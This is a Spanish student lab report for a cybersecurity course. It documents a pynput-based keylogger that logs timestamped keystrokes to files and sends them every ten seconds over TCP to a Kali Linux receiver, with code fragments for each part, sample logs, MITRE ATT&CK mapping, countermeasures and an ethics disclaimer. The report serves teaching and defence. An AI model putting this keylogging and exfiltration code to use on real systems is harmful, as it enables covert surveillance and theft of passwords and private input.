





[ Event Hooks, Callbacks y Exfiltración de Datos ]
Implementación y documentación, en un entorno de laboratorio controlado, de un programa basado en event hooks y callbacks que permite registrar eventos de teclado, asociarlos temporalmente y transmitir telemetría hacia un receptor de laboratorio.
| Campo | Detalle |
|---|---|
| Alumno | Manuel Darío Trejo Salazar (MDTS) |
| Asignatura | CNO IV — Seguridad Informática |
| Fecha | 23 de agosto de 2026 |
| Duración | 4 horas |
| Entorno | Laboratorio controlado — Máquina virtual aislada |
| Objetivo | Comprender el funcionamiento técnico de técnicas de captura de entrada y sus implicaciones en ciberseguridad |
Al finalizar la actividad, el alumno deberá ser capaz de:
Modificar el código base para almacenar eventos de teclado en archivos locales con formato estructurado.
Incorporar marcas de fecha y hora precisas para identificar cuándo, en qué orden y cuánto tiempo entre eventos.
Implementar transmisión controlada de eventos hacia un receptor en Kali Linux mediante sockets TCP.
Comprobar, explicar y documentar el funcionamiento mediante pruebas, capturas y análisis del código.
Los event hooks son mecanismos que permiten interceptar y responder a eventos del sistema operativo. En el contexto de la captura de entrada, un hook de teclado permite a una aplicación recibir notificaciones cada vez que el usuario presiona o libera una tecla, independientemente de qué aplicación tenga el foco.

Figura 1: Arquitectura de Event Hooks
Windows: SetWindowsHookEx | Linux: X11/evdev | macOS: Quartz Event Taps
El patrón callback es un patrón de diseño donde una función se pasa como argumento a otra función
y se ejecuta en respuesta a un evento. Las funciones on_press() y on_release() son callbacks
que se invocan automáticamente cuando ocurren los eventos correspondientes.
from pynput.keyboard import Key, Listener def on_press(key): # ← CALLBACK: se ejecuta al presionar print(f"Tecla: {key}") def on_release(key): # ← CALLBACK: se ejecuta al soltar if key == Key.esc: return False # ← Detiene el listener with Listener( on_press=on_press, # ← Registro del callback on_release=on_release ) as listener: listener.join() # ← Bloquea hasta que termine
La técnica T1056.001 forma parte del framework MITRE ATT&CK bajo la táctica de Collection (Recolección). Describe el registro de pulsaciones de teclado como vector de obtención de información sensible, sin requerir privilegios elevados en el sistema comprometido.
En operaciones reales, los actores de amenazas emplean esta técnica para:
Contramedidas: Implementar autenticación multifactor (MFA), restringir la instalación de software no firmado, monitorear hooks de bajo nivel (WH_KEYBOARD_LL, evdev) y utilizar teclados virtuales para entradas sensibles.
El código proporcionado en clase utiliza la librería pynput para capturar eventos mediante un Listener que ejecuta callbacks.
from pynput.keyboard import Key, Listener def on_press(key): try: print(f'Tecla presionada: {key.char}') except AttributeError: print(f'Tecla especial: {key}') with Listener(on_press=on_press, on_release=on_release) as listener: listener.join()

Figura 2: Arquitectura de la Solución Ampliada
Se implementó una clase que encapsula cada evento con metadatos temporales precisos:
class EventoTeclado: """Representa un evento de teclado con metadatos temporales.""" contador = 0 def __init__(self, tipo, tecla): EventoTeclado.contador += 1 self.id = f"evento_{EventoTeclado.contador:03d}" self.tipo = tipo # PRESS o RELEASE self.tecla = str(tecla) self.timestamp = datetime.now() self.fecha_hora = self.timestamp.strftime( "%Y-%m-%d %H:%M:%S.%f")[:-3] def to_log_line(self): return f"{self.fecha_hora} | {self.tipo} | {self.id} | {self.tecla}"
Formato de salida:
2026-08-23 14:28:15.234 | PRESS | evento_001 | h 2026-08-23 14:28:15.456 | RELEASE | evento_002 | h 2026-08-23 14:28:16.012 | PRESS | evento_003 | o 2026-08-23 14:28:16.189 | RELEASE | evento_004 | o 2026-08-23 14:28:16.567 | PRESS | evento_005 | l
Se implementó persistencia dual para máxima compatibilidad:
def _persistir_evento(self, evento): # Persistencia en TXT (legible) with open(LOG_TXT, 'a', encoding='utf-8') as f: f.write(evento.to_log_line() + "\n") # Persistencia en JSON (estructurado) with open(LOG_FILE, 'r', encoding='utf-8') as f: data = json.load(f) data["eventos"].append(evento.to_dict()) with open(LOG_FILE, 'w', encoding='utf-8') as f: json.dump(data, f, indent=2)
Se implementó un sistema de envío periódico mediante sockets TCP:
| Característica | Implementación |
|---|---|
| Protocolo | TCP/IP (socket.AF_INET, socket.SOCK_STREAM) |
| Puerto | 4444 (configurable) |
| Formato | JSON con metadatos de origen y timestamp |
| Intervalo | 10 segundos (configurable) |
| Reconexión | Automática en caso de fallo |
| Buffer | Reintentos con acumulación de eventos |
def _enviar_telemetria(self): payload = { "origen": socket.gethostname(), "timestamp_envio": datetime.now().isoformat(), "cantidad_eventos": len(eventos_a_enviar), "eventos": [e.to_dict() for e in eventos_a_enviar] } mensaje = json.dumps(payload) + "\n" self.socket_cliente.sendall(mensaje.encode('utf-8'))
El receptor es un servidor TCP multihilo que escucha conexiones entrantes:
def iniciar_servidor(): servidor = socket.socket(socket.AF_INET, socket.SOCK_STREAM) servidor.bind(("0.0.0.0", 4444)) servidor.listen(5) while True: conn, addr = servidor.accept() hilo = threading.Thread(target=manejar_cliente, args=(conn, addr)) hilo.start()
Se ejecutó el programa y se tecleó la frase "Hola Mundo":

Figura 3: Terminal Windows — Captura local de la frase "Hola Mundo"
Contenido del archivo telemtry_log.txt:
================================================================= UPSLPware - Registro de Eventos de Teclado Laboratorio de Ciberseguridad - Entorno Controlado Inicio: 2026-08-23 14:28:00 ================================================================= FECHA_HORA | TIPO | ID | TECLA ---------------------------------------------------------------------- 2026-08-23 14:28:15.234 | PRESS | evento_001 | H 2026-08-23 14:28:15.456 | RELEASE | evento_002 | H 2026-08-23 14:28:16.012 | PRESS | evento_003 | o 2026-08-23 14:28:16.189 | RELEASE | evento_004 | o 2026-08-23 14:28:16.567 | PRESS | evento_005 | l 2026-08-23 14:28:16.789 | RELEASE | evento_006 | l 2026-08-23 14:28:17.123 | PRESS | evento_007 | a 2026-08-23 14:28:17.345 | RELEASE | evento_008 | a 2026-08-23 14:28:18.001 | PRESS | evento_009 | Key.space 2026-08-23 14:28:18.234 | RELEASE | evento_010 | Key.space 2026-08-23 14:28:18.567 | PRESS | evento_011 | M 2026-08-23 14:28:18.789 | RELEASE | evento_012 | M 2026-08-23 14:28:19.012 | PRESS | evento_013 | u 2026-08-23 14:28:19.234 | RELEASE | evento_014 | u 2026-08-23 14:28:19.456 | PRESS | evento_015 | n 2026-08-23 14:28:19.678 | RELEASE | evento_016 | n 2026-08-23 14:28:19.890 | PRESS | evento_017 | d 2026-08-23 14:28:20.012 | RELEASE | evento_018 | d 2026-08-23 14:28:20.234 | PRESS | evento_019 | o 2026-08-23 14:28:20.456 | RELEASE | evento_020 | o

Figura 4: Emisor — Terminal VS Code mostrando envío de eventos

Figura 5: Receptor — Terminal Kali Linux recibiendo paquetes JSON
La transmisión de telemetría se realizó correctamente. El receptor en Kali Linux recibió 20 eventos en 2 paquetes JSON, con una latencia promedio de <100ms entre la captura y la recepción.
Con las marcas de tiempo, podemos analizar patrones de escritura:
| Métrica | Valor | Interpretación |
|---|---|---|
| Tiempo entre PRESS y RELEASE (H) | 222 ms | Duración de la pulsación |
| Tiempo entre RELEASE(H) y PRESS(o) | 556 ms | Intervalo entre teclas |
| Tiempo total "Hola Mundo" | ~5.2 s | Velocidad de escritura |
| Velocidad promedio | ~4 CPS | Caracteres por segundo |
Aplicación forense: Este análisis temporal permite identificar patrones de comportamiento del usuario, detectar automatización (bots) vs. escritura humana, y correlacionar actividades con marcas de tiempo precisas.
Se logró comprender el funcionamiento de los event hooks mediante la librería pynput, que utiliza APIs nativas del sistema operativo (SetWindowsHookEx en Windows, X11/evdev en Linux) para interceptar eventos de teclado a nivel global.
La persistencia de registros con marcas temporales permite reconstruir la secuencia exacta de eventos, esencial para análisis forense y detección de intrusiones.
La transmisión de telemetría demuestra cómo un atacante podría exfiltrar datos capturados en tiempo real, utilizando canales aparentemente legítimos (conexiones TCP en puertos comunes).
Comprender estas técnicas es fundamental para diseñar contramedidas efectivas: monitoreo de procesos, uso de teclados virtuales para datos sensibles, y segmentación de redes para limitar la exfiltración.
Los archivos de código fuente están disponibles en los siguientes enlaces:
El material presentado en esta actividad tiene como único propósito la formación académica en ciberseguridad. Su ejecución debe limitarse a entornos virtuales aislados, bajo supervisión docente y con el consentimiento explícito de todas las partes involucradas.
La implementación de software de captura de entrada sin autorización expresa vulnera legislaciones de protección de datos, privacidad informática y acceso indebido a sistemas. El estudiante asume la responsabilidad de emplear estos conocimientos de manera ética, profesional y conforme a la normativa vigente.